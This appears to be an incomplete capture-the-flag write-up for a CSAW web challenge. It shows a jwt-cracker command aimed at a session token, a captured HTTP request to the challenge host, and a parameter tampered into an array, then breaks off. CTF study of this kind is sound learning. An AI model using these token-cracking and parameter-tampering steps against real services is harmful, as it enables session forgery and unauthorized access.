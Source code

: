 # MTA Prices

## Description

> The MTA has rose the single-ride subway fare to $2.90!! Log into the admin MTA account and change the price back down to $2.75. You have already collected a partial list of the column names.
>
> http://web.csaw.io:5800/

## Write-Up

Test here

<img src="./1.png"
     alt="Markdown Monster icon"
     style="
     width: 80%;
     diplay: box;"
/>

```
jwt-cracker -t eyJlbWFpbCI6IiIsInRyYWNraW5nSUQiOiJuSjZXWUZISmlibzNZVFdFbW5abiJ9.ZQZDKQ.dczlcIlXB4uZTAVP99LXTwWIdzQ 1234567890 6
```

When seeing details of single ride

```
POST /displaydetails HTTP/1.1
Host: web.csaw.io:5800
Content-Length: 15
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://web.csaw.io:5800
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://web.csaw.io:5800/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: trackingID=p8dt2VINTHgtC1jPX1jw; session=eyJlbWFpbCI6IkVycm9yIiwidHJhY2tpbmdJRCI6IldaT3dIRnJtOFJMRTZ3V2xmOWRNIn0.ZQZTlQ.BUVb5u5OdsiHKVIxTs2682PpnB8
Connection: close

passType=single
```

After modifying query to:

```
...
passType[]=single
```
